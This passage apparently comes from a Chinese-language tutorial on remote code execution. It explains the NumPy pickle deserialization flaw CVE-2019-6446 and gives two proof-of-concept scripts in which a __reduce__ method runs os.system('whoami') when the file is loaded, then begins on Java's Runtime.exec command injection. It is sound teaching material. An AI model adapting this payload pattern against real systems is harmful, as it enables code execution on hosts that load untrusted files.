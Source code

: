 **<a class="reference-link" name="%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96"></a>反序列化**

详细原理及利用参考文库文章：[python反序列化](https://bbs.zkaq.cn/t/4893.html#Python)

举例:

**NumPy rce CVE-2019-6446**

通过 NumPy.lib.npyio.p 之中的load()方法加载序列化文件，通过 file 形参传入文件，由于allow_pickle=True，所以可以采用序列化文件。漏洞的执行流程为： NumPy.lib.npyio.pyload()=&gt;pickle.py load()

默认情况下 allow_pickle=True，允许通过文件反序列化,POC 如下：

```
from numpy.lib import npyio
from numpy import __version__
print(__version__)
import os
class Test(object):
    def __init__(self):
        self.a = 1
    def __reduce__(self):
        return (os.system, ('whoami',))
    if __name__ == '__main__':
        tmpdaa = Test()
        npyio.save("test",tmpdaa)
        npyio.load("test.npy")

或者可以通过 pickles，POC 如下：
from numpy.lib import npyio
from numpy import __version__
print(__version__)
import os
import pickle
class Test(object):
    def __init__(self):
        self.a = 1
    def __reduce__(self):
        return (os.system,('whoami',))
tmpdaa = Test()
with open("test-file.pickle",'wb') as f:
    pickle.dump(tmpdaa,f)
npyio.load("test-file.pickle")
```

<a class="reference-link" name="java"></a>**java**

**<a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%96%B9%E6%B3%95%E8%B0%83%E7%94%A8%E4%B8%8D%E5%BD%93"></a>程序方法调用不当**

因为代码编写不规范，缺少参数过滤等原因，导致程序通过Java执行系统命令，与cmd中或者终端上一样执行了shell命令所造成的RCE漏洞。最典型的就是使用了Runtime.getRuntime().exec(command)或者new ProcessBuilder(cmdArray).start()。

**Runtime.getRuntime().exec()**

该方法主要用于执行外部的程序或命令，直接在exec()中拼接命令或者引入字符串参数即可。
